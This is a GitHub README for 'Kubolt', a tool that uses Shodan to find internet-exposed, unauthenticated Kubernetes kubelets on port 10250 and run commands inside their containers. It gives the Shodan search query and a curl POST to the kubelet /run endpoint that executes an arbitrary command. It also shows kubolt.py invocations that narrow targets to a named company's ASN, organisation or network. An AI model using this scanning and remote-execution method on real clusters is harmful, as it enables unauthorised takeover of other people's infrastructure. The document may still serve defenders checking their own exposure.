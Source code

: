 # Wat?
**Kubolt** utility to scan public unauthinticated kubernetes clusters and run commands inside containers

# Why?
If the cluster exposed port 10250 to internet it's possible to use getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) and run commands inside containers:
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:
The basic query is 
>ssl:true port:10250 404 

**Kubelet** use port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** ask Shodan by API for list of IP addresses and keep them for other OSINT actions :grin:
Next it generate request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You could target companies more accurate using Shodan filters like this:
- asn
- org
- country
- net

To do it use query like this:
```python
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#Recently Shodan added kuberentes as product filter, but it's not reveal all the possible open clusters.
python kubolt.py --query "net:1.2.3.4/16 product:kubernets"
```


# Demo
![demo](/github-scale.gif)
